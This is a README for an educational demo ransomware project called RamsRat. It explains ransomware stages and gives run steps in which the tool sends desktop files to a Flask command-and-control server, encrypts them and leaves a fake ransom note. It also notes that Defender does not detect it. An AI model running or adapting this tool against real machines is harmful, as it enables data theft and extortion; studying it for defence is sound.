 # RamsRat-Ransomware
A fake Ransomware to understand exactly how it works.

**DISCLAIMER: I am not responsible for anything you do with this script. I provide this script and my pseudo-knowledge for the sole purpose of educating, not destroying.**

TRADUCTION BY DEEPL.

[Version-Française](https://github.com/Raaatus/RamsRat-Ransomware/blob/main/readme-fr.md)

To understand how ransomware works, it's important to note that the following is a general description. Ransomware can vary considerably depending on the specific features of each virus.

In general, ransomware :

- Is executed by the host or attacker on the target machine.
- Creates a key (often 32-bit, which can take a long time to break).
- Sends files to a command and control (C2) server.
- Encrypts files with the key.
- Demands a ransom.

## Ransomware

Ransomware is scripting software that executes code to encrypt personal data. It may or may not extract this data to a remote server, so that even if you pay the ransom, the attackers can still use it.

You are then asked to pay in exchange for the decryption key (and sometimes a decryptor).

The end of the story depends solely on the good faith of the person who encrypted your computer (lol).

## C2 server

A C2 (command and control) server is mainly used to manage the victims of your payloads, a bit like sessions in Metasploit.
Here, it's simply a Python script that allows you to receive files via a link.


## Build requirements

- A Windows client (you can use your own Windows, the script is harmless, or use a virtual machine).
-  [Visual Studio Community](https://visualstudio.microsoft.com/fr/downloads/)
  
## Prerequisites Started

- A Windows client (you can use your own Windows, the script is harmless, or use a virtual machine).
- [Python 3](https://www.python.org/downloads/) (on Windows or Linux, it doesn't matter).
- [.NET Desktop Runtime 6.0.31](https://dotnet.microsoft.com/en-us/download/dotnet/6.0)

## How it works


**<!>  Encrypts only files on the desktop, not folders or other locations.**

- Run by user.
- Copies files from the Desktop to: `Desktop/DecryptFiles`.
- Sends desktop files to C2 server.
- Change wallpaper.
- Executes a `readme.txt`.
- Encrypts the desktop files with a 32-bit key.

The result is a completely encrypted desktop.

The copied files are in `Bureau/DecryptFiles`.

Files on the control server (C2) are decrypted and downloaded.

As this is a demonstration, no data persistence or corruption will occur.

Finally, a decryptor `Decryptor.exe` and the 32-bit key will be needed if you want to decrypt the data on the Desktop.

**Again, there's a copy of this data in `Desktop/DecryptFiles`, so you don't have to decrypt the desktop files. You can simply copy them.**

## Get Started

As mentioned earlier, this script is theoretically harmless. However, it can easily be modified to cause damage. Use only the script from this [GITHUB](https://github.com/Raaatus/RamsRat-Ransomware).

The C2 server is independent of the ransomware. It can be remote or local, on another machine or on the machine to be encrypted.

### C2 server installation

- Installation of dependencies :
  - Windows : 
    - [Python 3](https://www.python.org/downloads/) 
    ```
    pip install Flask
    ```
  - Linux
    ```
    sudo apt install python3
    pip install Flask
    ```

- Launch the c2 server. **(If it's on Windows, don't put the script on the desktop)**

  ![plot](./img/serverc2.png)

### Ransomware execution

Defender ?

![plot](./img/defenderanalyse.gif)


Defender is probably being fooled by the build, but I'm disappointed that it doesn't even detect file encryption on your PC.

- After you've built or downloaded the release, you end up with a `Ramsom` folder.
- Place it anywhere on the machine you want to “check”.

- Run cmd to specify the C2 server and port. Type `cmd` at the top of the address bar.
  ![plot](./img/cmdexec.png)


- Finally, execute the command 
     `RamsRat.exe ip-server-c2 port-server-c2 ` == 
     `RamsRat.exe 10.0.24.55 5000`

- At the end of execution : 
  - The desktop is encrypted and the wallpaper changed:
  
    ![plot](./img/Execution.gif)

  - Readme opened with instructions (Fake):

 ![plot](./img/encryptdesk.png)

  - The files have been sent to C2 and are readable: 

    ![plot](./img/filesc2.png)

  

- We still find our files copied to `Bureau/DecryptFiles`. As well as the decryption key:

    ![plot](./img/decryptfiles.png)

  
### File decryption

With the Ransomware I supply the Decryptor.exe.

It is supplied with the path of the encrypted folder and the key. Here it's simple: both are on the desktop.

Use cmd and the command.


```
Decryptor.exe <encryptedFolderPath> <keyFilePath>

Decryptor.exe C:\Users\ratus\Desktop C:\Users\ratus\Desktop\DESKTOP-S3D0A9K.encryptionkey.key
```

![plot](./img/decryption.gif)


### Cleaning 

- With decryptor : 
  - Decrypt your data
  - Delete all .ratus files
  - Delete `DecryptFiles` folder
  - Delete readme
  - Delete project (optional)
- Without decryptor :
  - Copy files from `DecryptFiles` to Desktop
  - Delete .ratus
  - Delete readme
  - Delete `DecryptFiles
  - Delete project (optional)
- Serverc2 :
  - Delete python script
  - ipip unistall Flask
